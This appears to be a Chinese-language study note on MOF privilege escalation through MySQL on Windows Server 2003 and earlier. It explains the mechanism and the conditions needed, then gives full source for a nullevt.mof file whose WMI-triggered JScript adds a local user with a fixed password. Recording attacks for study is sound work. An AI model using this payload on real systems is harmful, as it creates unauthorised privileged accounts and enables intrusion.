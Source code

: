 ## MOF提权

### MOF文件

托管对象格式 (MOF) 文件是创建和注册提供程序、事件类别和事件的简便方法。文件路径为：c:/windows/system32/wbme/mof/，其作用是每隔五秒就会去监控进程创建和死亡。

### 提权原理

MOF文件每五秒就会执行，而且是系统权限，我们通过mysql使用load_file 将文件写入/wbme/mof，然后系统每隔五秒就会执行一次我们上传的MOF。MOF当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权

### 提权条件

```
windows 03及以下版本
mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
secure-file-priv参数不为null
```

mysql以root身份启动，具有c盘下system32/wbem/mof这点权限的要求，就已经非常严格了。。而且win7 sp1就已经没有这个nullevt.mof这个文件了

其实这里也有三种提权方式，可以参考https://xz.aliyun.com/t/7392#toc-9，因为我没有再去找那个mof.php文件了，而且这里需要windows 03我并没有去搭建，主要就记录一下这个提权方式的过程

### 上传nullevt.mof文件进行MOF提权

nullevt.mof文件源码

```
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user DawnT0wn 123456 /add\")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
